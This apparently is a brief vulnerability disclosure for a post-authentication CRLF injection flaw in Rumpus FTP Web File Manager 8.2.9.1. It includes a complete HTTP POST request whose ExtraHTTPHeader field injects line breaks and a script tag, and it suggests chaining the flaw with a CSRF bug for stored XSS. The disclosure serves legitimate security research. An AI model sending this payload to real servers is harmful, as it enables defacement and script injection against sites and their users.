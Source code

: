 # Title: HTTP Response Splitting/CRLF Injection 
# Vendor: MAXUM Development (https://maxum.com)
# Affected Product: Rumpus FTP Web File Manager
# Tested On: Rumpus FTP Version 8.2.9.1 for Windows


#Description: A Post Authenticated HTTP Response Splitting vulnerability was identified in the Web Settings
Component of Web File Manager in Rumpus FTP Server 8.2.9.1


#Vulnerable Request:

POST /RAPR/WebSettingsGeneralSet.html HTTP/1.1
Host: 127.0.0.1
Cookie: UserAccount=xxxxxxx; SessionID=xx
Content-Type: application/x-www-form-urlencoded
Content-Length: xx

ExtraHTTPHeader=CRLF:test%0A%0A<script>alert(0)</script>

#Impact: To exploit this vulnerability an attacker can chain this with CSRF (CVE-2019-19664).
A successful exploit will result in stored XSS, website defacement etc.
